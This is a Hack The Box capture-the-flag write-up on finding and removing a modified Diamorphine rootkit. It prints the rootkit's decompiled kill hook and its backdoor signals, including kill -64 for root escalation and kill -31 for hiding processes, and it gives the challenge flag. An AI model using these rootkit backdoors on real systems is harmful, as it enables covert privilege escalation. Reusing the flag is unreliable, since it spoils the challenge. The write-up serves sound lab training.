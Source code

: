 https://app.hackthebox.com/challenges/536

I immediately notice the README provided with the injected library. I decide to search for **“Diamorphine github”** and I find [Diamorphine](https://github.com/m0nad/Diamorphine).

There I also see the instructions for shutdown. I connect to the instance with:

```bash
nc -nv 94.237.59.174 58293
```

and try the shutdown commands:

```bash
kill -63 0
rmmod diamorphine
```

but it crashes with `kill -63 0`, so the attacker probably modified the code. I open it in **Binary Ninja** to look for the killswitch.

I find it here:

```
00000280  int64_t hacked_kill()

00000280      void* rdi_6 = __fentry__()
0000028b      int32_t rax = (*(rdi_6 + 0x68)).d
0000028b      
00000296      if (rax == 0x2e)
00000348          if (module_hidden != 0)
0000034a              uint64_t module_previous_1 = module_previous
00000354              void* rdx_5 = *module_previous_1
00000357              *(rdx_5 + 8) = 0x10d8
0000035f              data_10d8 = rdx_5
00000368              data_10e0 = module_previous_1
0000036f              module_hidden = 0
00000376              *module_previous_1 = 0x10d8
00000385              return __x86_return_thunk() __tailcall
00000385          
000003ad          uint64_t rax_15 = data_10e0
000003b4          void* rdx_8 = data_10d8
000003be          *(rdx_8 + 8) = rax_15
000003c2          module_previous = rax_15
000003c9          *rax_15 = rdx_8
000003d6          data_10d8 = -0x2152ffffffffff00
000003e1          data_10e0 = -0x2152fffffffffede
000003ed          module_hidden = 1
00000296      else if (rax == 0x40)
000002fe          int64_t rax_8 = prepare_creds()
000002fe          
0000030c          if (rax_8 != 0)
0000030e              __builtin_memset(s: rax_8 + 4, c: 0, n: 0x20)
0000032e              commit_creds(rax_8)
0000033b              return __x86_return_thunk() __tailcall
0000029f      else
000002a1          void* const rdx_1 = init_task
000002a1          
000002ab          if (rax == 0x1f)
000002d5              while (true)
000002d5                  void* rax_5 = *(rdx_1 + 0x8b8)
000002dc                  rdx_1 = rax_5 - 0x8b8
000002dc                  
000002e9                  if (rax_5 == (init_task + 0x8b8))
000002e9                      break
000002e9                  
000002cf                  if ((*(rdi_6 + 0x70)).d == *(rax_5 + 0x108))
0000038d                      if (rdx_1 == 0)
0000038d                          break
0000038d                      
00000393                      *(rax_5 - 0x88c) ^= 0x10000000
000003a8                      return __x86_return_thunk() __tailcall
000003a8              
000002f9              return __x86_return_thunk() __tailcall
000002f9          
000002ad          orig_kill
000002b4          __x86_indirect_thunk_rax()
000002b4      
000002c4      return __x86_return_thunk() __tailcall
```

## Analysis

```
00000296      if (rax == 0x2e)
00000348          if (module_hidden != 0)
0000034a              uint64_t module_previous_1 = module_previous
00000354              void* rdx_5 = *module_previous_1
00000357              *(rdx_5 + 8) = 0x10d8
0000035f              data_10d8 = rdx_5
00000368              data_10e0 = module_previous_1
0000036f              module_hidden = 0
00000376              *module_previous_1 = 0x10d8
00000385              return __x86_return_thunk() __tailcall
00000385          
000003ad          uint64_t rax_15 = data_10e0
000003b4          void* rdx_8 = data_10d8
000003be          *(rdx_8 + 8) = rax_15
000003c2          module_previous = rax_15
000003c9          *rax_15 = rdx_8
000003d6          data_10d8 = -0x2152ffffffffff00
000003e1          data_10e0 = -0x2152fffffffffede
000003ed          module_hidden = 1
```

This block corresponds to toggling the module visibility (**hide/unhide the kernel module**) when calling:

```
kill -46 0
```

---

```
00000296      else if (rax == 0x40)
000002fe          int64_t rax_8 = prepare_creds()
000002fe          
0000030c          if (rax_8 != 0)
0000030e              __builtin_memset(s: rax_8 + 4, c: 0, n: 0x20)
0000032e              commit_creds(rax_8)
0000033b              return __x86_return_thunk() __tailcall
```

This block corresponds to **privilege escalation to root** via:

```
kill -64 0
```

---

```
000002ab          if (rax == 0x1f)
000002d5              while (true)
000002d5                  void* rax_5 = *(rdx_1 + 0x8b8)
000002dc                  rdx_1 = rax_5 - 0x8b8
000002dc                  
000002e9                  if (rax_5 == (init_task + 0x8b8))
000002e9                      break
000002e9                  
000002cf                  if ((*(rdi_6 + 0x70)).d == *(rax_5 + 0x108))
0000038d                      if (rdx_1 == 0)
0000038d                          break
0000038d                      
00000393                      *(rax_5 - 0x88c) ^= 0x10000000
000003a8                      return __x86_return_thunk() __tailcall
000003a8              
000002f9              return __x86_return_thunk() __tailcall
000002f9          
000002ad          orig_kill
000002b4          __x86_indirect_thunk_rax()
```

This block corresponds to **hiding/unhiding a specific process** via:

```
kill -31 <pid>
```

### Plan of Action

1. **Escalate privileges to root**:

```bash
kill -64 0
```

2. **Make the module visible again**:

```bash
kill -46 0
```

3. **Unload the malicious module**:

```bash
rmmod diamorphine
```

You can check if it’s gone with:

```bash
lsmod | grep diamorphine
```

which should return nothing.

### Final Step

Search for the flag:

```bash
find / -name flag.txt 2>/dev/null
```

and I find it at:

```
/opt/psychosis/flag.txt
```

```
HTB{N0w_Y0u_C4n_S33_m3_4nd_th3_r00tk1t_h4s_b33n_sUcc3ssfully_d3f34t3d!!}
```